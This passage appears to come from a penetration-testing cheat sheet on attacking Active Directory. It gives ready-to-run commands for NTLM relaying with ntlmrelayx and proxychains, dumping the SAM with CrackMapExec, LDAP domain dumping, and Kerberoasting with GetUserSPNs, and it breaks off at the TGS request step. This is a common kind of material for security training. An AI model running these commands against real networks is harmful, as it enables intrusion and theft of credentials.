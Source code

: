 ```bash
ntlmrelayx.py -6 -wh 10.10.10.10 -t smb://10.10.10.1 -socks -debug -smb2support
```

This will open an interactive session of the `ntlmrelayx.py` tool. We will use the `socks` command to list the available `relays`. If the user tries to access to a shared resource that is not available, a new `relay` will apear. If we have `AdminStatus` to `True`, it means that we have received the authentication of an `Administrator`user. In the `/etc/proxychains.conf` file we will add `socks4 127.0.0.1 1080` in the end.  

Then we will use `CrackMapExec` to connect to the machine (Password can be anything):

```bash
proxychains cme smb 10.10.10.1 -u 'user' -p 'randompass' -d domain
```

We can use the following command to dump the `SAM` of the target macnine:

```bash
proxychains cme smb 10.10.10.1 -u 'user' -p 'randompass' -d domain --sam
```

### LDAP Domain Dump

Having valid credentials, we can list the `LDAP` service and extract valuable information. First we have to run the Apache service using the following command: `service apache2 start`. Then, we will use the `ldapdomaindump.py` tool, to list the service:

```bash
python3 ldapdomaindump.py -u 'domain.local\user' -p 'password' 10.10.10.1
```

After this proccess ends, we can access to the folder where the results have been added from the browser. This will display us the extracted information in a visual way.


### Kerberoasting

#### ¿How to know if target is vulnerable?

To make a machine vulnerable to  `Kerberoasting`, we will use the following command:

```powershell
setspn -a domain.local/user.DC1 domain.local/user
```

#### List Vulnerable Machines

Having valid credentials for the AD. We can list the vulnerable machines on the domain, with a tool of the `impacket` suite, using the following command:

```bash
GetUserSPNs.py domain.local/user:password
```

#### TGS

Once we have checked that the credentials are valid, we can use the `GetUserSPNs.py` tool with the `request` flag to request a `TGS` (Ticket Granting Service) to the `DC`:
